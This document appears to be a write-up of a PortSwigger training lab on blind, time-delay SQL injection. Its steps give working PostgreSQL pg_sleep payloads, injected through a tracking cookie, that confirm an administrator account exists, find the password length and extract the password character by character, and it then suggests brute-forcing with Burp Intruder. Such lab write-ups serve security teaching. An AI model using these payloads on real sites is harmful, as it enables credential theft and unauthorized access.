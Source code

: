 # SQL Injection - Blind SQLi with Time Delays and Information Retrieval

## 📌 Lab Details
- **Title**: Blind SQLi with Time Delays and Info Retrieval  
- **Difficulty**: Practitoner
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/90b742428496fd275bba4a89c5b13e2fa4dea4be3875ec8f6b09cdcd4cb63e7d?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-time-delays-info-retrieval

## 🔍 Summary
This lab demonstrated how SQL Injection can be used to produce time delays and retrieve information.

## 🛠 Steps to Solve
1. Modify the `TrackingId` cookie `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`. Verify that the application takes 10 seconds to respond.
2. `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`. Now the application responds with no time delay.
3. Now change the query to `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. The time delays shows that there is a user named `administrator`.
4. To determine the number of characters in the password `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`.
5. Now determine the password using `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`.
6. Now brute force the password using `Intruder` to run multiple `Payloads`.
   
## 📖 Key Takeaways
- Understanding the concept of `Time Delay`.
- Understanding the retrieval of inforamtion using `Time Delay`.
  
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/3fc47cc5-e6c7-4b29-88b2-899e0d677326)
![image](https://github.com/user-attachments/assets/2628feb8-895a-453f-9733-14b52d1b2921)
![image](https://github.com/user-attachments/assets/26624b6d-44b4-4918-b094-46125c1a3f6b)
![image](https://github.com/user-attachments/assets/a2a91cec-4b24-4019-bc45-5eb99d14b15b)
![image](https://github.com/user-attachments/assets/40551165-6fa3-4a30-8065-c237c39ffc22)
![image](https://github.com/user-attachments/assets/81dd6a10-5c81-4440-a297-16ef820a71cb)
![image](https://github.com/user-attachments/assets/bbdfd4c9-f4e2-4228-8ddf-45e4e8d1f7b5)

